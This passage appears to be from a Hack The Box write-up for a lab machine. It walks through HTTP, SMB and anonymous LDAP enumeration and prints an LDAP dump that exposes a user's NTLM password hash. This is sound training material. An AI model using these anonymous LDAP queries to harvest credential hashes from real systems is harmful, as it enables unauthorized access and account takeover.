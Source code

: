 The server doesn't respond with anything when we connect to it:

```
root@ragingunicorn:~# curl 10.10.10.107
curl: (52) Empty reply from server
```

We'll come back to this later when we get user access to the box.

### SMB share enumeration

I got an access denied when trying to check the shares. We'll need the credentials to enumerate this further. More on this later on.

```
root@ragingunicorn:~# smbmap -H 10.10.10.107
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.107...
[+] IP: 10.10.10.107:445	Name: 10.10.10.107                                      
	Disk                                                  	Permissions
	----                                                  	-----------
[!] Access Denied
```

### LDAP enumeration

To enumerate the LDAP, we need to give it the base dn to for the search. When I checked the output from nmap I saw the `ypuffy.hackthebox.htb` FQDN from the SMB discovery script. So I tried `hackthebox.htb` as domain to search from, luckily the box doesn't require authentication to pull data from it.

The most interesting entry is this one for `alice1978` because it contains an NTLM hash. The `userPassword` field is not useful, it just contains `{BSDAUTH}alice1978` in base64 encoded format.

```
root@ragingunicorn:~# ldapsearch -h 10.10.10.107 -x -b "dc=hackthebox,dc=htb"
[...]
# alice1978, passwd, hackthebox.htb
dn: uid=alice1978,ou=passwd,dc=hackthebox,dc=htb
uid: alice1978
cn: Alice
objectClass: account
objectClass: posixAccount
objectClass: top
objectClass: sambaSamAccount
userPassword:: e0JTREFVVEh9YWxpY2UxOTc4
uidNumber: 5000
gidNumber: 5000
gecos: Alice
homeDirectory: /home/alice1978
loginShell: /bin/ksh
sambaSID: S-1-5-21-3933741069-3307154301-3557023464-1001
displayName: Alice
sambaAcctFlags: [U          ]
sambaPasswordHistory: 00000000000000000000000000000000000000000000000000000000
sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
sambaPwdLastSet: 1532916644
[...]
```
